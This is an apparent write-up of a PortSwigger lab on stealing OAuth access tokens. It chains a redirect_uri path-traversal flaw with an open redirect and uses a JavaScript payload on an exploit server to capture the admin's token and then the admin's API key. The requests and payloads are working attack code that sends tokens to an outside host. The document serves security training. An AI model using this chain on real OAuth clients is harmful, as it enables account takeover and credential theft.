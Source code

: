 # Stealing OAuth access tokens via an open redirect

## This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

## To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

#### Note

##### You cannot access the admin's API key by simply logging in to their account on the client application.

## The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

## You can log in via your own social media account using the following credentials: `wiener:peter`.

---

step 1

![](images/lab4_http_history_redirect_uri.jpg)

step 2

logout and login again and see HTTP history

![](images/lab4_http_history_redirect_uri_access_token.jpg)

step 3
send step 2 to repeater
change uri with google.com

![](images/lab4_change_uri_bad_request.jpg)

step 4
in uri section test with /../post?/postId=8
it give 302 response
![](images/lab4_uri_test_post_id.jpg)

step 5
Note in this lab if you logout and login again you don't need to enter user-id and password
it will automatically login

now logout and click on my account and intercept process until you reach at redirect_uri
![](images/lab4_social_login_uri.jpg)

step 6

add /../

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post?postId=8&response_type=token&nonce=-2006832369&scope=openid%20profile%20email HTTP/2
```

![](images/lab4_intercept_uri.jpg)

you will redirect to post 8

![](images/lab4_after_forward_access_token_with_postid.jpg)

this is complete url

```http
https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/post?postId=8#access_token=pDuxx3Zrg65Yue-6vKm6ShYqwSSLiVdm-_1Y7ZnTnH-&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

step 7

in the post in the bottom section there is next button

![](images/lab4_next_post_link_at_bottom_of_post.jpg)

click on next

it will redirect to next post
earlier it was 8 not it is 9
![](images/lab4_post_id_9.jpg)

step 8

go to HTTP history again find next url

![](images/lab4_next_path_url_302__found.jpg)

step 8
send step 7 to repeater and path= https://google.com

```
GET /post/next?path=https://google.com HTTP/2
```

you will get 302 response

![](images/lab4_change_next_path_url_add_google_url.jpg)

step 9
now click on my account
intercept request keep forward until you reach redirect_uri

```
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback&response_type=token&nonce=794310292&scope=openid%20profile%20email HTTP/2
```

change to

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://google.com&response_type=token&nonce=794310292&scope=openid%20profile%20email HTTP/2
```

![](images/lab4_redirect_google_with_access_token.jpg)

---

step 10

now exploit it
add payload to exploit

```javascript
<script>window.location = '/?'+document.location.hash.substr(1)</script>
```

![](images/lab4_add_first_payload.jpg)
and in uri section add `/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit`

```
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/..&response_type=token&nonce=599160809&scope=openid%20profile%20email
```

change to

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit&response_type=token&nonce=599160809&scope=openid%20profile%20email
```

![](images/lab4_forward_path_id_uri_intercept.jpg)

it will redirect to exploit url

![](images/lab4_access_token_exploit_web_page.jpg)

copy url from browser for access_token

```
https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/?access_token=M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

or
click on access log for token

![](images/lab4_access_log_access+token.jpg)

```
access_token=M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_
```

---

step 11
go to HTTP history click on me you will see api-key of user

![](images/lab4_http_history_me_request.jpg)

now send to the repeater use token key `M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_` from **\_\_\_\_**

step 10

![](images/lab4_change_token_to_get_user_api_key.jpg)

---

step 12

payload HInt

### Hint:

```javascript
<script>
  if (!document.location.hash){" "}
  {
    (window.location =
      "https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email")
  }{" "}
  else {(window.location = "/?" + document.location.hash.substr(1))}
</script>
```

change with your credential

```
outhid: oauth-0a29002603866278807a2f7b02c70094.oauth-server.net
labid: 0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net
exploitid: exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit/
```

final payload

```javascript
<script>
  if (!document.location.hash){" "}
  {
    (window.location =
      "https://oauth-0a29002603866278807a2f7b02c70094.oauth-server.net/auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email")
  }{" "}
  else {(window.location = "/?" + document.location.hash.substr(1))}
</script>
```

![](images/lab4_add_payload_exploit.jpg)

---

step 13
go to my account intercept again till uri

add and forward request

```
/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit
```

![](images/lab4_test_post_id_path_redirect_uri.jpg)

you will redirect to exploit page go to access log see if any different ip which contain access token

![](images/lab4_access_token_with_different_api_key.jpg)

copy token and paste to repeater at /me in authorization section

![](images/lab4_admin_api_key.jpg)

```json
{
  "sub": "administrator",
  "apikey": "8D2JdRgR7VEp54s32CHR60k1Z3VK5IYy",
  "name": "Administrator",
  "email": "administrator@normal-user.net",
  "email_verified": true
}
```

---

step 14
submit api-key to solve lab

![](images/lab4_lab_solved.jpg)
